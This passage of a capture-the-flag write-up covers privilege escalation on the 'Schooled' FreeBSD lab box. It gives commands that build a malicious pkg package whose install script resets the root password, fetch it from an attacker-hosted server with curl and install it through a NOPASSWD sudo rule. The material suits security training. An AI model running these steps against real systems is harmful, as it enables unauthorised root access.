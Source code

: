 Using `sudo -l` we identify that Jamie can run a few commands as root:
```
User jamie may run the following commands on Schooled:
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install *
```

### Privilege escalation through pkg binary

Using GTFO bins, we are able to create our own malicious packages and install them using `sudo pkg install` command:

```bash
# Local Machine
TF=$(mktemp -d)
echo 'passwd root' > $TF/x.sh
fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF

# Remote Machine
cd /tmp
curl http://10.10.16.26:8000/x-1.0.txz -o x-1.0.txz
sudo pkg install -y --no-repo-update ./x-1.0.txz
```

Alternative use scp: `scp x-1.0.txz jamie@schooled.htb:/tmp`

Reset the password to root, and log in using `su root`.

You will now have access to `/root/` directory.